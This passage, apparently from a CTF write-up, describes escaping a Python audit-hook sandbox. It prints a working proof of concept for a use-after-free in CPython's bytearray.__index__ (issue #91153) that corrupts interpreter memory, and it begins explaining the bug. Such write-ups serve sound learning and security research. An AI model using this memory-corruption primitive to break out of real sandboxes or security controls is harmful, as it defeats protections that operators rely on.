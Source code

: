 But... that's just the Python environment. Remember how our audit hook lives in the interpreter itself? We can't use any I/O operations without 
triggering the hook, and we also can't import any of the aforementioned modules that could've let us bypass the audit hook restrictions either. 
We spent another few trying to see if there is any audit hook escapes within the things given to us that wouldn't trigger the audit hook, such 
as those in the object subclasses path as usual, but nothing popped into our minds. 

We were basically back to square one... or so we thought.


## Falling to the dark side

At this point, we were getting *desp*erate. So we, yes, resorted to our option left:
**memory corruption**.

One bug in particular, [Issue #91153](https://github.com/python/cpython/issues/91153), was a Use-After-Free
in `bytearray.__index__`. The interesting thing about this issue is that it was closed with a fix in 2022,
but it still in fact works on the latest version! We can try out the PoC:

```py
# uaf.py

class B:
    def __index__(self):
        global memory
        uaf.clear()
        memory = bytearray()
        uaf.extend([0] * 56)
        return 1

uaf = bytearray(56)
uaf[23] = B()
memory[id(250) + 24] = 100
print(250)
```
---
```sh
$ python3.12 uaf.py
100
```

The expected output is clearly `250`, but it outputs `100` instead!

## UAF exploit

It's not immediately clear where the bug is, but we can make some reasonable assumptions from looking at the
code. First, the `__index__` method behaves a bit like a cast to an integer, meaning it coerces `B()` to a
numeric value under certain circumstances (like assigning to a bytearray).
